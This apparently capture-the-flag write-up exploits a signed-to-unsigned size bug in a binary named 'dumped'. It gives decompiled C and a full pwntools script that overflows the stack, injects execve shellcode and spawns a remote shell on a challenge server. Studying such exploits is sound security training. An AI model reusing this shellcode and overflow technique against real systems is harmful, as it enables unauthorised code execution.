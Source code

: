 1)The binary is compiled with PIE and Full Relro and no other major mitigations present and this program basically gives us a stack pointer leak which gives the address of input buffer.

2)The binary asks for the buffer size and the number is checked whether it is bigger than 0x5c if yes the program exits.. If not the the binary proceeds to asks input from the user with the user supplied size value.

```c
  printf("You are dumping your trash in dumpster number: %p\n",&local_68);
  printf("Enter the size of trash you\'re throwing: ");
  __isoc99_scanf(&DAT_00102082,&local_6c);
  fflush(stdin);
  if (0x5a < (int)local_6c) {
    puts("I cannot accept to much trash in one go!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Enter your trash: ");
  sVar1 = read(0,&local_68,(ulong)local_6c);
  local_c = (undefined4)sVar1;
  fflush(stdin);
  puts("Dumped your trash.");
  return;
```



3)But the problem arises is when the size input gets read in int format specifier and the check is also done in int data type. But when the size is passed to read to get input buffer it gets typecasted to unsigned long . So we can make a buffer overflow by passing a negative int like - 100 which also satisfies the size under 0x5c and when typecasted becomes very huge size that we can use it make a buffer overflow.

4)As we already have a stack leak which has RWX permissions. We can inject our shellcode onto stack and execute it by returning to it.

```python
#!/usr/bin/env python3



from pwn import * 

context.arch = "amd64"
e = ELF("./dumped")
#r = process("./dumped")
r = remote("34.100.187.70",4444)
r.recvuntil(b"You are dumping your trash in dumpster number: ")
val = int(r.recvline().strip(),16)
print(hex(val))
r.sendline(b"-1")
shellcode = asm('''
        mov rdi,rsp
        mov rsi,0
        mov rdx,0
        mov rax,0x3b
        syscall
        ''')
exploit = shellcode + (b"\x90" * (104 - len(shellcode)))  + p64(val)  + b"/bin/sh\x00"
r.send(exploit)
r.interactive()
```
